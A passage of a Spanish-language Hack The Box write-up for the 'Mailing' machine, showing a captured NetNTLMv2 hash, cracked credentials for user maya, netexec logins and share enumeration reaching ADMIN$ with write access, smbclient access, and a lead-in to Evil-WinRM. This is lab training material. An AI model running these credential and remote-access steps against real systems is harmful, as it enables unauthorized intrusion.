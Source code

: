 ```bash
MAYA::MAILING:791cf7736242d34d:27d5362744daec507f80d903b8844567:0101000000000000805714e2a603db01ba3598f3f3e01e7000000000020008004b00420035004a0001001e00570049004e002d005a0030004300570051❯ nxc smb 10.10.11.14 -u maya -p m4y4ngs4ri
SMB         10.10.11.14     445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)
SMB         10.10.11.14     445    MAILING          [+] MAILING\maya:m4y4ngs4ri 
```
Esta última línea nos indica que la autenticación con las credenciales proporcionadas (maya como usuario y m4y4ngs4ri como contraseña) fue exitosa.
Si no saldría STATUS_LOGON_FAILURE.

![](/assets/images/htb-writeup-mailing/7.png)

Ahora, vamos a enumerar los recursos compartidos del servidor.

```bash
❯ nxc smb 10.10.11.14 -u maya -p m4y4ngs4ri --shares
SMB         10.10.11.14     445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)
SMB         10.10.11.14     445    MAILING          [+] MAILING\maya:m4y4ngs4ri 
SMB         10.10.11.14     445    MAILING          [*] Enumerated shares
SMB         10.10.11.14     445    MAILING          Share           Permissions     Remark
SMB         10.10.11.14     445    MAILING          -----           -----------     ------
SMB         10.10.11.14     445    MAILING          ADMIN$          READ,WRITE      Admin remota
SMB         10.10.11.14     445    MAILING          C$              READ,WRITE      Recurso predeterminado
SMB         10.10.11.14     445    MAILING          Important Documents READ            
SMB         10.10.11.14     445    MAILING          IPC$            READ            IPC remota
```

```bash
❯ nxc smb 10.10.11.14 -u maya -p m4y4ngs4ri --share ADMIN$
SMB         10.10.11.14     445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)
SMB         10.10.11.14     445    MAILING          [+] MAILING\maya:m4y4ngs4ri (Pwn3d!)
```

Como vemos ha logrado conectarse correctamente al recurso compartido ADMIN$, pero no ha realizado ninguna acción adicional. Pwn3d! es un mensaje de conexión exitosa.
Pero este comando solo auntentica y conecta al recurso compartido pero no abra una sesión interactiva de SMB. Así que para ello voy a usar lo siguiente.

```bash
❯ smbclient //10.10.11.14/ADMIN$ -U maya
Password for [WORKGROUP\maya]:
Try "help" to get a list of possible commands.
smb: \> 
```
Y ya tendría acceso. Pero no encuentro ahí información útil asi que pruebo a usar, <span style="color:#ff7868">`Evil-WinRM`</span>, una herramienta diseñada para interactuar WinRM( Windows Remote Management) y ejecutar comando remotamente en el sistema Windows.
